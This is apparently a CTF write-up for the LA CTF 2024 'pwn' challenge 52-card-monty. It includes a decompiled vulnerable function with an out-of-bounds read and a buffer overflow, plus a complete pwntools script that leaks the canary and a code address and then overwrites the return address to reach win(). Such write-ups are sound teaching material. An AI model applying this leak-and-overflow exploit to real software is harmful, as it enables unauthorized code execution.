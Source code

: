 ```yaml
---
title: 52-card-monty
date:  2024-02-25T20:00:00+02:00
description: Writeup for 52-card-monty [LA CTF 2024]
author: pinebel
tags:
- pwn
draft: false
---
```


## Challenge Description:

3-card monty was too easy for me so I made 52-card monty! Can you show me the lady?

## Intuition 

We are given an ELF 64-bit binary with the following protections:
```bash
└─$ checksec --file=monty 
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   Canary found      NX enabled    PIE enabled     No RPATH   No RUNPATH   82 Symbols        No    0               2               monty

```


We can see that it has all the protections, after opening it in Ghidra we can see that there is also a win() function that prints the flag, so it's a ret2win challenge. The vulnerability is that we can leak some addresses from the stack. The array from which we can read cards has 52 elements but our input let us read 0x52 elements from the array. 

```C
void game(void)

{
  long lVar1;
  long *plVar2;
  long in_FS_OFFSET;
  int local_1d8;
  int local_1d4;
  long local_1d0;
  long local_1c8 [52];
  char local_28 [24];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  plVar2 = local_1c8;
  for (lVar1 = 0x34; lVar1 != 0; lVar1 = lVar1 + -1) {
    *plVar2 = 0;
    plVar2 = plVar2 + 1;
  }
  for (local_1d4 = 0; local_1d4 < 0x34; local_1d4 = local_1d4 + 1) {
    lVar1 = lrand();
    local_1c8[local_1d4] = lVar1;
  }
  local_1d8 = rand();
  local_1d8 = local_1d8 % 0x34;
  local_1c8[local_1d8] = 0x423a35c7;
  puts("==============================");
  printf("index of your first peek? ");
  __isoc99_scanf(&DAT_0010206a,&local_1d8);
  local_1d0 = local_1c8[local_1d8 % 0x52];
  local_1c8[local_1d8 % 0x52] = local_1c8[0];
  local_1c8[0] = local_1d0;
  printf("Peek 1: %lu\n",local_1d0);
  puts("==============================");
  printf("index of your second peek? ");
  __isoc99_scanf(&DAT_0010206a,&local_1d8);
  local_1d0 = local_1c8[local_1d8 % 0x52];
  local_1c8[local_1d8 % 0x52] = local_1c8[0];
  local_1c8[0] = local_1d0;
  printf("Peek 2: %lu\n",local_1d0);
  puts("==============================");
  printf("Show me the lady! ");
  __isoc99_scanf(&DAT_0010206a,&local_1d8);
  puts("==============================");
  if (local_1c8[local_1d8] == 0x423a35c7) {
    puts("You win!");
  }
  else {
    puts("Just missed. Try again.");
  }
  puts("==============================");
  puts("Add your name to the leaderboard.");
  getchar();
  printf("Name: ");
  fgets(local_28,0x34,stdin);
  puts("==============================");
  printf("Thanks for playing, %s!\n",local_28);
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

We can leak two addresses from the stack with the peeks the binary allows us to do, then we are asked for the index where the lady card is but this isn't important for our exploit. After this we are asked for our name.

### Solution

To solve this challenge with the two peeks I leak the main address and the canary and then I send the payload when we are asked for our name. 

```py
from pwn import *


def get_peek_address(output):
    print(output)
    temp = output[9:-1]
    temp = temp.decode()
    return hex(int(temp))


target = process("./monty")
target = remote("chall.lac.tf",31132)

target.sendlineafter(b"peek?",b"57") # index for main  is 57
main = hex(int(get_peek_address(target.recvline()),16) - 0x30)
print(main)

target.sendlineafter(b"peek?",b"55") # index for canary is 55 
canary = get_peek_address(target.recvline())
print(canary)

target.sendlineafter(b"lady!",b"1")
print(target.recvline())

# gdb.attach(target)
# pause()

flag = int(main,16) - 0x415 # distance from main to flag
print(hex(flag))
payload = b"A"*24 + p64(int(canary,16)) + p64(flag) + p64(flag)
target.sendlineafter(b"Name:",payload)
#print(target.recvline())

target.interactive()

```